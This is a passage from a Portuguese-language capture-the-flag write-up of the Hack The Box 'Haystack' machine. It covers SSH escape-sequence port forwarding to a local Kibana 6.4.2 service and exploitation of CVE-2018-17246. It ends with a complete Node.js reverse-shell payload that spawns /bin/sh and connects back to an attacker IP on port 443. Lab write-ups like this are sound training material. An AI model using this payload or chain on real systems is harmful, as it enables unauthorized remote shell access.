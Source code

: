 Para realizar ele, irei utilizar o `SSH Konami`

> https://www.sans.org/blog/using-the-ssh-konami-code-ssh-control-sequences/

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-haystack/H_k.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-haystack/H_k1.png)

Primeiro passo é digital ~C no terminal SSH (Esse deve ser o primeiro comando)

Após isso irá abrir o prompt para Port Forwading, então digitamos -L 5602:127.0.0.1:5601

O que quer dizer?

> -L -> Local Forwding (uma porta no Haystack será espelhada em uma porta na minha Kali)

> 5602:127.0.0.1 -> Vai abrir localmente (Kali) essa porta 5602

> 5601 -> A porta que será espelhada do servidor Haystack

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-haystack/H_p.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-haystack/H_p1.png)

Pronto, Port Fowarding realizado, agora eu tenho na minha Kali porta 5602 o serviço que está sendo disponibilizado apenas localmente na porta 5601 do Haystack

Acessamos via browser

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-haystack/H_p2.png)

Vamos em `Management` e verificamos novamente a versão dele

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-haystack/H_p3.png)

Comprovamos que a versão é 6.4.2

#### Procurando Exploits para Kibana

Encontramos esse:

> https://github.com/mpgn/CVE-2018-17246

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-haystack/H_exp.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-haystack/H_exp1.png)

Lendo o que ele faz, verificamos essa PoC

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-haystack/H_exp2.png)

Devemos executar esse script dentro da máquina através do Kibana, então salvamos em algum lugar dentro da máquina Haystack esse script, atentando para mudar nosso IP, no caso eu coloquei dentro da pasta /dev/shm

```
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(443, "10.10.16.119", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```
